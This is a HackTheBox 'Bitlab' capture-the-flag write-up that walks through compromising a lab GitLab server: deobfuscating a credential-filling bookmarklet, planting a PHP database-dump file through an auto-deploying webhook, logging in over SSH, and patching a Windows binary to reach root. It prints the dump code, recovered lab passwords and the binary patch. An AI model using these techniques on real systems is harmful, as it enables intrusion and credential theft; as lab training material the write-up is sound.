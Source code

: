 ```yaml
---
title: "Bitlab - HackTheBox"
date: 2020-01-11T19:00:00+02:00
tags: []
---
```


Let's start with a port scan:
```
$ nmap -A -T4 10.10.10.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-11 12:23 EST
Nmap scan report for 10.10.10.114
Host is up (0.058s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's visit the website on port 80:
![](/images/hackthebox/bitlab/bitlab.png)

This is a Gitlab server installation and trying common username and passwords
combinations or a bruteforce with Hydra does not gives us anything, but by
visiting the [Help](http://10.10.10.114/help/bookmarks.html) link in the bottom, we find an interesting page:

![](/images/hackthebox/bitlab/help.png)

The most interesting link is the last one, Gitlab login, which contains this
javascript function:
```js
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```

It is obfuscated, so let's use a tool like `https://beautifier.io/` to improve
the readability:
```
javascript: (function() {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```

And let's replace the variable with their values:

```
javascript: (function() {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document["getElementById"]("user_login")["value"] = "clave";
    document["getElementById"]("user_password")["value"] = "11des0081x";
})()
```

Basically what it does is it autocompletes the login form with `clave` as
username and `11des0081x` as password. After logging in we find two
repositories:
![](/images/hackthebox/bitlab/repositories.png)

This is the code of Deployer:
```php
<?php

$input = file_get_contents("php://input");
$payload  = json_decode($input);

$repo = $payload->project->name ?? '';
$event = $payload->event_type ?? '';
$state = $payload->object_attributes->state ?? '';
$branch = $payload->object_attributes->target_branch ?? '';

if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
    echo shell_exec('cd ../profile/; sudo git pull'),"\n";
}

echo "OK\n";
```
It does a Git pull automatically after a merge is done on the Profile
repository. Luckily for us, the Profile repository is cloned into the root of
the web server, and it's visitable by going on the user's settings (which is
strange, maybe it was an error).

Another interesting thing can be found in the user's snippets:
![](/images/hackthebox/bitlab/snippets.png)

The logical thing to do now is to try to use those credentials to dump the
table, so let's create a file called dump.php in the Profile repository and let's write the
following code:
```php
<?php
    $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
    $result = pg_query($db_connection,"SELECT * FROM profiles;");
    var_dump(pg_fetch_all($result));
?>
```
After creating a merge request and accepting it, the Deployer project will
automatically pull the changes and the `dump.php` file will be visitable. Here
is it's output:
```json
array(1) {
  [0]=>
  array(3) {
    ["id"]=>
    string(1) "1"
    ["username"]=>
    string(5) "clave"
    ["password"]=>
    string(22) "c3NoLXN0cjBuZy1wQHNz=="
  }
}
```

The password looks like base64 and it gets decoded as `ssh-str0ng-p@ss`, but
there is an invalid padding, and the password is the actual base64 string. I
hate when in CTFs these things happen, it's just a loss of time.
So let's connect with SSH and let's get the user flag:
```
clave@bitlab:~$ wc -c user.txt
33 user.txt
```

# Privilege escalation
The first thing that jumped to my eyes is a file in user's home:
```
clave@bitlab:~$ ls
RemoteConnection.exe  user.txt
```

Let's copy it on our machine to analyze it:
`scp clave@10.10.10.114:/home/clave/RemoteConnection.exe .`

Using Ghidra to reverse engineer it we can find some interesting strings:
![](/images/hackthebox/bitlab/strings.png)

And those strings are used in this function:
{{< highlight C "linenos=table, hl_lines=71" >}}
/* WARNING: Could not reconcile some variable overlaps */

void FUN_00401520(void)

{
  LPCWSTR pWVar1;
  undefined4 ***pppuVar2;
  LPCWSTR lpParameters;
  undefined4 ***pppuVar3;
  int **in_FS_OFFSET;
  uint in_stack_ffffff44;
  undefined4 *puVar4;
  uint uStack132;
  undefined *local_74;
  undefined *local_70;
  DWORD local_6c;
  void *local_68 [4];
  undefined4 local_58;
  uint local_54;
  void *local_4c [4];
  undefined4 local_3c;
  uint local_38;
  undefined4 ***local_30 [4];
  int local_20;
  uint local_1c;
  uint local_14;
  int *local_10;
  undefined *puStack12;
  undefined4 local_8;
  
  local_8 = 0xffffffff;
  puStack12 = &LAB_004028e0;
  local_10 = *in_FS_OFFSET;
  uStack132 = DAT_00404018 ^ (uint)&stack0xfffffffc;
  *(int ***)in_FS_OFFSET = &local_10;
  local_6c = 4;
  local_14 = uStack132;
  GetUserNameW((LPWSTR)0x4,&local_6c);
  local_38 = 0xf;
  local_3c = 0;
  local_4c[0] = (void *)((uint)local_4c[0] & 0xffffff00);
  FUN_004018f0();
  local_8 = 0;
  FUN_00401260(local_68,local_4c);
  local_74 = &stack0xffffff60;
  local_8._0_1_ = 1;
  FUN_004018f0();
  local_70 = &stack0xffffff44;
  local_8._0_1_ = 2;
  puVar4 = (undefined4 *)(in_stack_ffffff44 & 0xffffff00);
  FUN_00401710(local_68);
  local_8._0_1_ = 1;
  FUN_00401040(puVar4);
  local_8 = CONCAT31(local_8._1_3_,3);
  lpParameters = (LPCWSTR)FUN_00401e6d();
  pppuVar3 = local_30[0];
  if (local_1c < 0x10) {
    pppuVar3 = local_30;
  }
  pWVar1 = lpParameters;
  pppuVar2 = local_30[0];
  if (local_1c < 0x10) {
    pppuVar2 = local_30;
  }
  while (pppuVar2 != (undefined4 ***)(local_20 + (int)pppuVar3)) {
    *pWVar1 = (short)*(char *)pppuVar2;
    pWVar1 = pWVar1 + 1;
    pppuVar2 = (undefined4 ***)((int)pppuVar2 + 1);
  }
  lpParameters[local_20] = L'\0';
  if (local_6c == L'clave') {
  ShellExecuteW((HWND)0x0,L"open",L"C:\\Program Files\\PuTTY\\putty.exe",lpParameters,(LPCWSTR)0x0, 10);
  }
  if (0xf < local_1c) {
    operator_delete(local_30[0]);
  }
  local_1c = 0xf;
  local_20 = 0;
  local_30[0] = (undefined4 ***)((uint)local_30[0] & 0xffffff00);
  if (0xf < local_54) {
    operator_delete(local_68[0]);
  }
  local_54 = 0xf;
  local_58 = 0;
  local_68[0] = (void *)((uint)local_68[0] & 0xffffff00);
  if (0xf < local_38) {
    operator_delete(local_4c[0]);
  }
  *in_FS_OFFSET = local_10;
  FUN_00401e78();
  return;
}
{{< /highlight >}}

It looks like it uses some functions to decrypt a password and use it to login
with PuTTY to a machine on line 71. The only problem is that the user that runs
the program must be named `Clave`, and this check is at address `0x401640`:
![](/images/hackthebox/bitlab/graph.png)

We can patch the program by editing `JNZ LAB_00401662` at address `0x401647` to `JMP 0x00401649` to
unconditionally jump, and running the patched program gets us a root shell on
the machine:
![](/images/hackthebox/bitlab/putty.png)

Cool! This was my first machine that needed reverse engineering so it took me a
while, and the important thing that we can learn is to not be lazy and use
strange methods to save passwords and important stuff.

Another way that this step could have been done is to use a debugger and put a breakpoint after the password gets decoded and read the memory:
```
Qf7]8YSV.wDNF*[7d?j&eD4^
```

Thanks for reading!
